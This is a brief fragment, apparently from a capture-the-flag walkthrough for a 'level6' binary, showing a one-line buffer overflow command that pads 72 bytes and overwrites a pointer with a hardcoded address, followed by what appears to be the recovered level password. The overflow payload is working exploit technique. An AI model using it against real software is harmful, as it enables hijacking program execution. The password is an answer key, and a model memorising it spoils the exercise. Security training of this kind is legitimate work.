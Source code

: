 - `./level6 $(python -c "print('A' * 72 + '\x54\x84\x04\x08')")`
```
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```
